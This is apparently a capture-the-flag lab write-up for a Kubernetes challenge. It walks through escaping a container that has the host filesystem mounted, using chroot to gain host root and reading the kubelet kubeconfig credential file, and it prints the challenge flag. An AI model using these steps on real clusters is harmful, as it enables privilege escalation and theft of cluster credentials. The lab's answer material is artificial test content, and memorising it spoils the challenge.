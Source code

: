 ## Challenge 20 - K8 Security - Container Escape to Host

**Challenge Type:** Breaker

Lets apply our deployment

```json
kubectl apply -f challenge20/deployment_host_fs.yaml
```

Enter the container

[The most pointess Kubernetes command ever](https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/)

```json
// get pods
kubectl get pods

// enter a pod
kubectl exec -it [pod_name] -- bash

//list the file system
root@challenge11-b6c789695-mgqkg:/# ls
bin  boot  dev  etc  home  k8-host  lib  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

![escape](/screenshots/Pasted%20image%2020220309224654.png)

```json
// lets cd into the /k8-host directory
cd /k8-host

// then lets run chroot to change the root directory and get host privileges
chroot . bash
```

we can now pull the certificates for the cluster.

```json
cat /var/lib/kubelet/kubeconfig
```

![escape2](/screenshots/Pasted%20image%2020220309224800.png)

```json
ls
cat flag
```

![escape3](/screenshots/Pasted%20image%2020220309224818.png)

> 🏁 Challenge 20 Flag - `k8_ctf{esc4pIN9coNT41NeR5}`


Exit

```json
exit
```

cleanup

```json
kubectl delete -f challenege20/deployment_host_fs.yaml
```